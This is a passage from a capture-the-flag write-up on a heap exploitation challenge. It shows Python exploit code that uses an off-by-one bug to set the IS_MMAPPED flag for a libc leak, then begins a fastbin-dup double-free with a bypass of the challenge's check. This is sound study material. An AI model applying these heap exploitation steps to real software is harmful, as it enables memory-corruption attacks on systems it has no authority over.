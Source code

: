 The trick revolves around a chunk's `IS_MMAPED` flag being set; if present, `calloc` will not zero out the chunk's user data after allocation because it assumes the chunk has been allocated via `mmap()` which also zeroes out data.

The least significant nybble of a chunk's size field is not taken into account for its size. Rather, it's used to set various flags. These are:
- PREV_INUSE 
- IS_MMAPPED 
- NON_MAIN_ARENA

Hence, we can use the off-by-one bug in the Edit Testament functionality to increase the size of a free'd chunk's size field, setting the `IS_MMAPED_FLAG`. This means that if another chunk with the same size is allocated, `calloc` will not zero out any data already present, and the Create Testament functionality will print out residual data. This can be used to leak a libc address:

```python
# =-=-=- Set IS_MMAPPED_FLAG =-=-=-

# Create 0x20-sized chunk to overflow
overflow = create(1, 'overflow')

# create 0x90-sized chunk to leak and free it into unsortedbin
# create 0x70-sized top chunk guard to protect against
# consolidation and use later for fastbin dup
leaker = create(4, 'leaker')
guard = create(3, 'guard')
delete(leaker)

# Set IS_MMAPPED
edit(overflow, '24')

# Assign new 0x90-sized chunk and leak libc
# we're leaking unsortedbin BK (NOT fd)
leaker, libc_leak = create(4, 'leakerr', leak=True)
libc_leak = uu64(libc_leak.strip())
libc.address = libc_leak - 0x3c4b78
log_addr('Libc leak', libc_leak)
log_addr('Libc base', libc.address)
```

And we successfully leak a libc address on the remote binary and resolve its libc base address.
```
[+] Opening connection to onetestament.insomnihack.ch 
[*] Libc leak: 0x7f91f59acb78
[*] Libc base: 0x7f91f55e8000

```

### Fastbin dup
Now that we have a libc address, we can leverage the second off-by-one bug to carry out a fastbin dup via a double-free. We just need to make sure we overflow the `optionBuf` global variable to bypass the pseudo double-free check by sending `'00004'` as the chunk index.

```python
# =-=-= Helper =-=-=--=
def delete(idx, overflow=False):
    sla(b'choice: ', b'4')
    # overflow optionBuf to bypass double-free check
    if overflow:
        payload = str(idx).encode()
        payload = payload.rjust(5, b'0')
        # payload = '00004'
        log.info(f'Bypassing double-free check with: {payload}')  
        sla(b'index: ', payload)
    else:
        sla(b'index: ', str(idx).encode())

```
